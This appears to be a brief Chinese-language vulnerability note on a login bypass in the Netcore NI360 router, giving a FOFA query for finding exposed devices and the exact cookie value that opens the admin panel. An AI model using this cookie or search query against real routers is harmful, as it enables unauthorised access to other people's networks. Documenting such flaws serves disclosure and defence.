



# 磊科NI360路由器登录绕过漏洞

## 漏洞描述

磊科NI360路由器存在登录绕过漏洞，通过添加cookie可直接进入后台

## 漏洞影响

> 磊科 NI360路由器

## FOFA

> title="Netcore"

## 漏洞分析

登录页面如下：



通过添加特定的cookie，然后刷新网页即可进入后台。

```
netcore_login=guest:1
```



